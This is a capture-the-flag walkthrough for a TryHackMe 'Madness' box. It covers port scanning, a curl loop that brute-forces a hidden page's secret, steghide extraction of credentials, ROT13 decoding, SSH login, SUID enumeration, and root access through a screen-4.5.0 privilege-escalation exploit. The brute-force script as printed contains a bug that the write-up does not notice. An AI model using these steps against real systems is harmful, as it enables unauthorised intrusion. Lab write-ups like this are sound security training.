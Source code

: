 start with nmap
```console
bibo318@parrot:~/madness$ nmap 10.10.156.223
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 11:58 EDT
Nmap scan report for 10.10.156.223
Host is up (0.044s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.76 seconds
bibo318@parrot:~$ nmap -p- -A 10.10.156.223 > madness/target.txt
bibo318@parrot:~$ cat madness/target.txt 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 11:54 EDT
Nmap scan report for 10.10.156.223
Host is up (0.044s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 268.31 seconds
```
then I check the source code for on the defualt page and I found soemthing interessting.
```html
<div class="page_header floating_element">
        <img src="thm.jpg" class="floating_element"/>
<!-- They will never find me-->
        <span class="floating_element">
          Apache2 Ubuntu Default Page
        </span>
      </div>
```
seem like there is something with that thm.jpg. You will notic that the picture is corrupted and you can not view it.I run ```strings``` to check the picture
```console
bibo318@parrot:~/madness$ strings thm.bak 
$3br
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
        #3R
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
#|Ttm
|q6;A
54{Ar
```
I googling about about ```CDEFGHIJSTUVWXYZcdefghijstuvwxyz``` seem like this find have some hidden data inside and we will need use steghide to extract it. To extract the hidden data, we need a password which me dont have. So I decide to work on another stuff


When you open it with hexeditor you will see that thm.jpg file signature is .png. we need to change it back .jpg signature. After some digging if found this [link](https://en.wikipedia.org/wiki/List_of_file_signatures) which contains list of file signatures.



Use hexeditor and fix the signature to ```FF D8 FF E0 00 10 4A 46 49 46 00 01``` and save it now check the picture again and visite the hidden page. here is the source html of the page
```html
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 1</p>

<p>That is wrong! Get outta here!</p>

</div>
</body>
</html>
```
http://10.10.32.231/th1s_1s_h1dd3n/index.php?secret=1

```bash
#!/bin/bash
for i in {1..99}
do
    curl "http://10.10.32.231/th1s_1s_h1dd3n/index.php?secret=$1" 
done > result.txt
```
this script wasn't the best script. but I figured out that each reponse have 18 lines of html. so I ran ```cat result.txt | grep -n wrong ``` and try to find the line that jump more that 18 line.
```console
bibo318@parrot:~/madness$ cat result.txt | grep -n wrong
*
*
1274:<p>That is wrong! Get outta here!</p>
1292:<p>That is wrong! Get outta here!</p>
1310:<p>That is wrong! Get outta here!</p>
1346:<p>That is wrong! Get outta here!</p>
1364:<p>That is wrong! Get outta here!</p>
*
*
```
as you can see between 1310 and 1348, it jump more that 18 so I guess password should be at 1310+18 = line 1328. now let grep that line
```console
bibo318@parrot:~/madness$ cat -n result.txt | grep 1328
  1328  <p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>
```
We got the password!!! now use it with steghide to extract the hidden data.
```console
bibo318@parrot:~/madness$ steghide extract -sf thm.jpg 
Enter passphrase: 
wrote extracted data to "hidden.txt".
bibo318@parrot:~/madness$ cat hidden.txt 
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```
The user name look weird and I remember that the hint was ```There's something ROTten about this guys name! ```


ROT is a encryption algorith. The most common ROT is ROT13. I learn how to decrypt ROT13 when I did Bandit CTF, so let crack it
- ROT13
| input                      | output                     |
|----------------------------|----------------------------|
| ABCDEFGHIJKLMNOPQRSTUVWXYZ | NOPQRSTUVWXYZABCDEFGHIJKLM |
| abcdefghijklmnopqrstuvwxyz | nopqrstuvwxyzabcdefghijklm |
```console
bibo318@parrot:~/madness$ echo "wbxre" | tr '[A-Za-z]' '[NOPQRSTUVWXYZABCDEFGHIJKLMnopqrstuvwxyzabcdefghijklm]'
joker
```
now we got username... still dont have password lol. I dont know where to looks then I found the picture on THM room and try which kinda look suspicious. I try to extract data from the picture using steghide + ```y2RPJ4QaPF!B``` and ```joker``` as password........ it did work. So I was like, let try without password then? GG we got the password
```console
bibo318@parrot:~/madness$ steghide extract -sf 5iW7kC8.jpg
Enter passphrase: 
wrote extracted data to "password.txt".
bibo318@parrot:~/madness$ cat password.txt 
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
bibo318@parrot:~/madness$ ssh joker@10.10.32.231
joker@10.10.32.231's password:
joker@ubuntu:~$ ls
user.txt
joker@ubuntu:~$ cat user.txt 
THM{d5781e53XXXXXXXXXXXXXXXXXXXX}
```


```console
joker@ubuntu:~$ sudo -l
[sudo] password for joker: 
Sorry, user joker may not run sudo on ubuntu.
joker@ubuntu:~$ 
joker@ubuntu:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Nov 29 04:40 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwxr-sr-x 1 root mlocate 39520 Nov 17  2014 /usr/bin/mlocate
-rwxr-sr-x 1 root shadow 62336 Mar 26  2019 /usr/bin/chage
-rwxr-sr-x 1 root crontab 36080 Apr  5  2016 /usr/bin/crontab
-rwxr-sr-x 1 root ssh 358624 Mar  4  2019 /usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 27368 Oct 10  2019 /usr/bin/wall
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 75304 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54256 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 39904 Mar 26  2019 /usr/bin/newgrp
-rwxr-sr-x 1 root shadow 22768 Mar 26  2019 /usr/bin/expiry
-rwsr-xr-x 1 root root 40432 Mar 26  2019 /usr/bin/chsh
-rwxr-sr-x 1 root tty 14752 Mar  1  2016 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 71824 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Oct 11  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40128 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 1588648 Jan  4 14:03 /bin/screen-4.5.0
-rwsr-xr-x 1 root root 1588648 Jan  4 13:59 /bin/screen-4.5.0.old
-rwsr-xr-x 1 root root 40152 Oct 10  2019 /bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 27608 Oct 10  2019 /bin/umount
-rwxr-sr-x 1 root shadow 35600 Apr  9  2018 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 35632 Apr  9  2018 /sbin/pam_extrausers_chkpwd
```
After some researching, I found out that there is sa exploit for ```screen-4.5.0``` link [here](https://www.exploit-db.com/exploits/41154)


crate the ```exploit.sh``` and make it executable (```chmod +x```) and execute it
```console
joker@ubuntu:~$ nano exploit.sh
joker@ubuntu:~$ chmod +x exploit.sh 
joker@ubuntu:~$ ./exploit.sh 
# whoami
root
# cd /root      
# ls
root.txt
# cat root.txt
THM{5ecdXXXXXXXXXXXXXXXXXX}
```